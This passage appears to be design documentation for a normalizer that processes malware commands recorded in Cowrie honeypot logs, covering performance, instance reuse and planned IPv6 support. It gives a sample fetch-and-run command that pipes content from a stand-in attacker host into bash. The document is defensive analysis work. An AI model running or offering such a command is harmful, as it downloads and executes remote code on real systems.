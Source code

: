 ### Expected Performance Characteristics

**Typical Command**: `curl http://evil.com | bash script.sh`

1. Idempotency check: O(1) - string contains check
2. Defanging reversal: O(n) - linear scan with regex, n = command length
3. Semantic normalization:
   - URL matching: O(n) with compiled pattern
   - IP matching: O(n) with compiled pattern
   - Path matching: O(n) with compiled pattern, O(m) depth calculation (m = path components)
4. **Total**: O(n) where n is command length

**Performance Target**: <1ms per command for typical malware commands (50-200 characters)

**Scaling**: Linear with command length. 1000-command batch should normalize in <1 second.

### Memory Efficiency

**Pattern Storage**: 3 compiled patterns × ~1KB = ~3KB per DefangingAwareNormalizer instance

**Recommendation**: Create single normalizer instance and reuse:
```python
# Good: Reuse single instance
normalizer = DefangingAwareNormalizer()
for command in commands:
    normalized = normalizer.normalize(command)

# Bad: Create new instance per command
for command in commands:
    normalizer = DefangingAwareNormalizer()  # Wasteful!
    normalized = normalizer.normalize(command)
```

---

## Future Considerations

### IPv6 Address Support

**Current State**: Only IPv4 addresses are normalized (`IP_PATTERN: r'\b(?:\d{1,3}\.){3}\d{1,3}\b'`)

**IPv6 Pattern Complexity**:
```python
# Full IPv6 pattern (simplified example)
r'\b(?:[0-9a-fA-F]{1,4}:){7}[0-9a-fA-F]{1,4}\b'  # Full form
r'\b::(?:[0-9a-fA-F]{1,4}:)*[0-9a-fA-F]{1,4}\b'  # Compressed form
```

**Challenge**: IPv6 has multiple valid representations (compressed, zero-padded, etc.). Need comprehensive pattern.

**Recommendation**: Add when IPv6 addresses appear in Cowrie logs. Current dataset analysis shows <0.1% IPv6 usage in attacks.
